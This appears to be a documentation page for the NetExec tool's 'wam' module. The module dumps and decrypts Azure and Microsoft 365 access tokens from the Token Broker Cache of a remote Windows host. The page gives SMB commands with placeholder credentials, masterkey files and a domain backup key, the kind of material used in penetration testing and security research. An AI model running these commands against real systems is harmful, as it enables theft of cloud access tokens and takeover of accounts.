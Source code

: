 ```yaml
---
description: Dump access token for Azure and Microsoft 365 from Token Broker Cache.
---
```


# 🆕 Dump Token Broker Cache

{% hint style="warning" %}
You need at least local admin privilege on the remote target, use option **--local-auth** if your user is a local account
{% endhint %}

Microsoft 365 and Azure applications on desktop will store access tokens to the Token Broker Cache. These are stored with user DPAPI. You can use the `wam` module in order to decrypt them. More info here [https://blog.xpnsec.com/wam-bam/](https://blog.xpnsec.com/wam-bam/)

```bash
nxc smb 192.168.1.100 -u UserNAme -p 'PASSWORDHERE' -M wam
nxc smb 192.168.1.100 -u UserNAme -p 'PASSWORDHERE' -M wam --mkfile masterkeys.txt
nxc smb 192.168.1.100 -u UserNAme -p 'PASSWORDHERE' -M wam --pvk domain_backup_key.pvk
```

{% embed url="https://blog.xpnsec.com/wam-bam/" %}
